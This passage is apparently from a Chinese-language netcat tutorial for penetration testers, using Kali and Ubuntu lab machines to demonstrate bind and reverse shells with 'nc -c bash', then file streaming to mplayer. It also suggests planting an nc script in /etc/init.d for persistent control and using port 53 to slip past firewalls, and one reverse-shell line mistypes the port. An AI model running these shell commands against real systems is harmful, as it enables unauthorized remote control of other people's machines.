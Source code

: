 首先下kali上运行nc的服务器端。

A 端 kali linux（服务器端）

```bash
kali@ $: nc -lp 333 -c bash  {通过nc建立的连接将bash传递给对方；符合我们通常的一个使用习惯吧，又服务器侦听一个端口，通过客户端来连接这个端口时，服务器端把自己的bash shell传递给客户端！}
```

B 端 ubuntu Linux

```bash
ubuntu@ $: nc -nv 192.168.14.23 333
```

`nc`正向连接适用于使用场景：当渗透进入对当操作系统后，将可在对方`/etc/init.d`目录下添加`nc`执行脚本实行永久控制！但由于对方防火墙配置这种场景几乎不存在！

### 方向

下面我们来个反向的:

A:kali 依旧作为服务器端负责侦听端口,但并不传递shell:

```bash
kali@ $: nc -lp 333
```

B端：ubuntu依旧是客户端:

```bash
ubuntu@ $: nc -nv 192.168.14.23 33 -c bash
// {通过 nc 连接到 kali 服务器端并将 shell 传递给服务器端成为被控制端！}
```

反向连接使用场景：攻击端负者侦听一个端口，而在被攻击端执行启动脚本时将`shell`传送给被攻击端!,通常使用`53`端口，既 NDS 转换端口！

当然在`windows`下只需要讲`bash`换成`cmd`就ok了！

## 0x06 流媒体服务器

---

流媒体服务器，首先需要流媒体客户端和流媒体服务端。
`nc`搭建流媒体服务器端(kali):

```bash
kali@ $: cat 1.mp4 | nc -lp 333
// {使用cat命令将视频文件cat为文件流管道给nc侦听的333端口}
```

B端接收端(ubuntu):

```bash
ubuntu @ $: nc -nv 192.168.14.23 333 | mplayer -vo x11 -cache 3000-
// {B端nc连接到A端的侦听端口获得文件流，指定mplayer播放器进行缓存播放}
```

## 0x07 端口扫描

---
